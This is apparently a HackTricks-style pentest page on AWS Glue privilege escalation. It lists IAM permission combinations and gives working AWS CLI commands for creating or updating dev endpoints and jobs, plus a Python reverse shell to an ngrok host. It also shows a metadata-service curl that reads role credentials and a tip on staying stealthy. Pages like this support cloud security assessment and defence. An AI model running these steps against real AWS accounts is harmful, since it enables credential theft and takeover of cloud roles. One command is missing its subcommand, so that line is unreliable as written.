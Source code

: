 # AWS - Glue Privesc

{{#include ../../../banners/hacktricks-training.md}}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with these permissions can **set up a new AWS Glue development endpoint**, **assigning an existing service role assumable by Glue** with specific permissions to this endpoint.

After the setup, the **attacker can SSH into the endpoint's instance**, and steal the IAM credentials of the assigned role:

```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
    --role-arn <arn-role> \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

For stealth purpose, it's recommended to use the IAM credentials from inside the Glue virtual machine.

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Users with this permission can **alter an existing Glue development** endpoint's SSH key, **enabling SSH access to it**. This allows the attacker to execute commands with the privileges of the endpoint's attached role:

```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
    --public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

**Potential Impact:** Privesc to the glue service role used.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Users with **`iam:PassRole`** combined with either **`glue:CreateJob` or `glue:UpdateJob`**, and either **`glue:StartJobRun` or `glue:CreateTrigger`** can **create or update an AWS Glue job**, attaching any **Glue service account**, and initiate the job's execution. The job's capabilities include running arbitrary Python code, which can be exploited to establish a reverse shell. This reverse shell can then be utilized to exfiltrate the **IAM credential**s of the role attached to the Glue job, leading to potential unauthorized access or actions based on the permissions of that role:

```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```

**Potential Impact:** Privesc to the glue service role specified.

### `glue:UpdateJob`

Just with the update permission an attacked could steal the IAM Credentials of the already attached role.

**Potential Impact:** Privesc to the glue service role attached.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}



